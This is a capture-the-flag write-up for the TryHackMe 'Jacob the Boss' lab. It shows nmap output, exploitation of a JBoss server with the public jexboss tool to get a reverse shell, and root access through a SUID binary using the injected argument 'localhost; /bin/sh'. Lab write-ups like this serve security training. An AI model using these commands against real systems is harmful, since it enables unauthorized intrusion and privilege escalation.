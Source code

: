 # Jacob the Boss CTF [TryHackMe](https://tryhackme.com/room/jacobtheboss)

---

![](./.assets/logo.jpeg)

---

```bash
export IP=10.10.93.83
```

---

## Enumeration

```bash
nmap -sC -sV -A -v -oN nmap/initial.log $IP
```

```
# Nmap 7.91 scan initiated Mon Aug  2 13:35:54 2021 as: nmap -vvv -p 22,80,111,1090,1098,1099,3306,3873,4444,4445,4446,4457,4712,4713,8009,8080,8083,13101,41513,43583 -sC -sV -v -A -oN nmap/initial.log 10.10.93.83
Nmap scan report for jacobtheboss.box (10.10.93.83)
Host is up, received syn-ack (0.14s latency).
Scanned at 2021-08-02 13:35:55 +04 for 192s

PORT      STATE SERVICE      REASON  VERSION
22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOLOk6ktnJtucoDmXmBrc4H4gGe5Cybdy3jh1VZg+CYg+sZbYXzGi2/JO45cRqYd2NFIq7l+oTsjFgh76qAayKMU4D3+gKaC+U2VL93nCU1SywzvZLLc8MEy7mTHflOm4kZCmycgtJO4tfUhuH64yEP+lv3ENFeH5jgyJcGABF/p44MMSwnvpaLMfOuEGuEhKMPA4c+XAiS3J+sErUbpx6ragGGJAKTpww+arDy11slMsyJgjN6GUjlR0y+P0E4/NsrNHe86GKXJ1G4bfKEdKOPeTZ+wZMNFDCVNLPHLWUBIgWNQHIgRcXiBvPAvIrrt8gV/+td9C74Bsj0VqEEJnP
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUtPCeXKNaq6WZlT3PxbZbQmka1bb5I+yBRhUb5tzmf2GEmdDOk6R7MSUlEtzGzQ4GjAWFZG3q7ZcBahg8ur8A=
|   256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJI3bQUWzwhk0iJYl+gGn09NgvRLtN4vJ4DG6SrE7/Hb
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1090/tcp  open  java-rmi     syn-ack Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack Java RMI
1099/tcp  open  java-object  syn-ack Java Object Serialization
| fingerprint-strings:
|   NULL:
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     xp'w]
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|_    a229
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
13101/tcp open  unknown      syn-ack
41513/tcp open  unknown      syn-ack
43583/tcp open  java-rmi     syn-ack Java RMI
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.91%I=7%D=8/2%Time=6107BC7C%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,16F,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1
SF:e\x97\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08o
SF:bjBytesq\0~\0\x01xp'w\]\x91ur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x02
SF:\0\0xp\0\0\0\.\xac\xed\0\x05t\0\x1dhttp://jacobtheboss\.box:8083/q\0~\0
SF:\0q\0~\0\0uq\0~\0\x03\0\0\0\xc7\xac\xed\0\x05sr\0\x20org\.jnp\.server\.
SF:NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server\.R
SF:emoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.server
SF:\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpw;\0\x0bUnicastRef2\0\0\
SF:x10jacobtheboss\.box\0\0\x04J\0\0\0\0\0\0\0\0\x9ez\xba>\0\0\x01{\x062B\
SF:x02\x80\0\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3873-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4445-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4713-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,5,"a229\n")%r(GenericLines,5,"a229\n")%r(GetRequest,5,"a229\n")
SF:%r(HTTPOptions,5,"a229\n")%r(RTSPRequest,5,"a229\n")%r(RPCCheck,5,"a229
SF:\n")%r(DNSVersionBindReqTCP,5,"a229\n")%r(DNSStatusRequestTCP,5,"a229\n
SF:")%r(Help,5,"a229\n")%r(SSLSessionReq,5,"a229\n")%r(TerminalServerCooki
SF:e,5,"a229\n")%r(TLSSessionReq,5,"a229\n")%r(Kerberos,5,"a229\n")%r(SMBP
SF:rogNeg,5,"a229\n")%r(X11Probe,5,"a229\n")%r(FourOhFourRequest,5,"a229\n
SF:")%r(LPDString,5,"a229\n")%r(LDAPSearchReq,5,"a229\n")%r(LDAPBindReq,5,
SF:"a229\n")%r(SIPOptions,5,"a229\n")%r(LANDesk-RC,5,"a229\n")%r(TerminalS
SF:erver,5,"a229\n")%r(NCP,5,"a229\n")%r(NotesRPC,5,"a229\n")%r(JavaRMI,5,
SF:"a229\n")%r(WMSRequest,5,"a229\n")%r(oracle-tns,5,"a229\n")%r(ms-sql-s,
SF:5,"a229\n")%r(afp,5,"a229\n")%r(giop,5,"a229\n");
Service Info: OS: Windows; Device: printer; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:39:07 2021 -- 1 IP address (1 host up) scanned in 192.92 seconds
```

So, you may be inclined to believe that this is a Windows box considering the amount of ports open, however, notice port `8080`. It's a Tomcat/Coyote JSP engine.

Let's have a peek at that.

(Keep in mind that as my `nmap` scan was going on - manually explored the site and also launched gobuster - those however, will not be needed here)

Looking at http://jacobtheboss.box:8080 we notice a few things. First this is obviously a Tomcat server but it also has JBoss on it. This will probably be our vunerability.

---

### Finding Vunerabilities

Googling around for some JBoss v.5 exploits (the console while checking the site gives information about its version etc...) I stumble onto this [Github Repo](https://github.com/joaomatosf/jexboss) with an automated tool for exploiting JBoss.

```bash
git clone https://github.com/joaomatosf/jexboss.git
pip2 install -r requires.txt
python2 jexboss.py -u http://$IP:8080
```

The tool finds multiple RCE vunerabilities and even has the ability to generate a reverse shell for us!

---

### PrivEsc

I open a netcat listener and gain a reverse shell using the tool above!

Now that I have it, I see that I am logged on as a user `jacob`. I grab the user flag and launch `linpeas`.

It first picks up on something named `/srv/java/bin/java` as a severe binary exploitation vunerability as well as the Linux kernel version being `3.10`. But before I launch myself down that avenue, I notice a strange SUID bit set: `pingsys`. Linpeas does not recognise it so it is probably an external command that may be poorly configured.

Googling for an exploit for `pingsys` (and guessing I'm on the right track as every 3 result is related to the room) I find a super simple one [here](https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux).

```bash
pingsys 'localhost; /bin/sh'
```

And we're now root! Pretty easy actually and I'm super thankful I didn't stumble down the rabbit hole of java exploitation from the first vunerability we found!

---

### Final Thoughts

A room which seems intimidating at first but it is super simple if you follow your head and don't fall down the multiple rabbit holes!

Recommended!

---

![](./.assets/app.png)
